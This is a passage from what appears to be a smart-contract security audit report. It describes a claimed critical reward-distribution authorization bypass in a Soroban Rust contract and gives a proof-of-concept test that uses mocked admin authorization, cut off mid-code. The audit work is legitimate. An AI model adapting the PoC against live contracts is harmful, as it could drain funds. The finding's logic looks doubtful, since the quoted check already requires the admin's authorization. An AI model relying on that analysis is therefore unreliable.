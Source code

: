 **Result:** Test PASSES, confirming the vulnerability is exploitable.

### 7. Reward Distribution Bypass Vulnerability

**Severity:** CRITICAL  
**CVE:** CVE-2024-XXXX-007  
**CVSS Score:** 9.8 (Critical)

#### Description
The `distribute_rewards` function in `rewards.rs` suffers from the same authorization bypass vulnerability as other admin functions. Any user with the admin's signature can call this function to distribute arbitrary rewards to any user, regardless of whether they are the actual admin.

#### Impact
- **Fund Drainage**: Attackers can distribute large rewards to any user, draining contract funds
- **Economic Impact**: Complete loss of reward system integrity and financial control
- **System Integrity**: Reward distribution system is completely bypassed
- **Trust Impact**: Complete loss of user confidence in the reward system

#### Root Cause
The function calls `AdminModule::verify_admin(&env)?` which only checks for admin signature (`admin.require_auth()`) but doesn't verify that the caller is actually the admin.

#### Affected Code
```rust
// In rewards.rs - VULNERABLE
fn distribute_rewards(env: Env, user: Address, amount: i128) -> Result<(), Error> {
    AdminModule::ensure_contract_active(&env)?;
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    
    // Distributes rewards to user and their upline
    // Any address with admin signature can call this function
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_critical_reward_distribution_bypass() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create malicious user and victim
    let malicious_user = Address::generate(&env);
    let victim_user = Address::generate(&env);

    // Register both users
    contract.register_with_referral(&victim_user, &admin, &String::from_str(&env, "proof123"));
    contract.approve_verification(&victim_user);
    contract.register_with_referral(&malicious_user, &admin, &String::from_str(&env, "proof456"));
    contract.approve_verification(&malicious_user);

    // Verify victim starts with 0 rewards
    let initial_rewards = contract.get_pending_rewards(&victim_user);
    assert_eq!(initial_rewards, 0);

    // CRITICAL VULNERABILITY: Malicious user can distribute rewards with admin's signature
    let large_reward_amount = 100000;

    // VULNERABILITY: Malicious user calls distribute_rewards with admin's signature
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin, // Admin signature
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
```